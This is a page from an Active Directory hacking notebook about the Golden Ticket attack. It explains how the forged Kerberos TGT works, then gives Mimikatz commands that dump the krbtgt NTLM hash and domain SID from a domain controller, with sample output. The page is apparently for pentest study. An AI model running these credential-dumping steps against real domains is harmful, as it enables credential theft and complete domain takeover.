

repository: RayenManai/MyHackBook · page: Active Directory/attacking-ad/post-domain-compromise-attacks/golden-ticket.html · generator: sphinx

# Golden Ticket

## Overview

A Golden Ticket is a forged Kerberos Ticket Granting Ticket (TGT) that grants complete access to every machine and resource in the domain. Unlike pass-the-hash or pass-the-ticket attacks that rely on existing tickets, a Golden Ticket is artificially created by an attacker who has compromised the `krbtgt` account.

**Why is it powerful?**

- When you compromise the `krbtgt` account (the Kerberos TGT account), you own the domain.
- The `krbtgt` account's NTLM hash is the cryptographic key used to sign all TGTs in the domain.
- By forging a TGT signed with this key, the domain controller will blindly trust it, granting you access to any service or resource in the domain.
- Golden Tickets are persistent and difficult to detect, as they are cryptographically valid and bypass normal authentication checks.
- Unlike regular accounts that can be disabled or have passwords changed, revoking a Golden Ticket requires resetting the `krbtgt` password (twice, due to password history).

## Walkthrough

### 1. Obtain the krbtgt NTLM Hash and Domain SID

**Where is this step run?**

To dump the krbtgt hash, you must have access to the **Domain Controller itself**. This requires either:

- Direct access to a DC (via RDP, psexec, etc. with admin credentials)
- Access to a backup of NTDS.dit
- Running this step from a DC you've already compromised

Use Mimikatz (running on the DC with SYSTEM privileges) to dump the credentials of the `krbtgt` account and identify the domain SID:

```bash
mimikatz.exe
mimikatz # privilege::debug
mimikatz # lsadump::lsa /inject /name:krbtgt
```

This command outputs:

```
Domain : MARVEL / S-1-5-21-1234567890-1234567890-1234567890
RID    : 502 (krbtgt)
User   : krbtgt
Hash   : aad3b435b51404eeaad3b435b51404ee:5f4dcc3b5aa765d61d8327deb882cf99
```

Record:

- **Domain SID**: S-1-5-21-1234567890-1234567890-1234567890 (without the trailing RID)
- **krbtgt NTLM Hash**: 5f4dcc3b5aa765d61d8327deb882cf99
- **Domain Name**: marvel.local
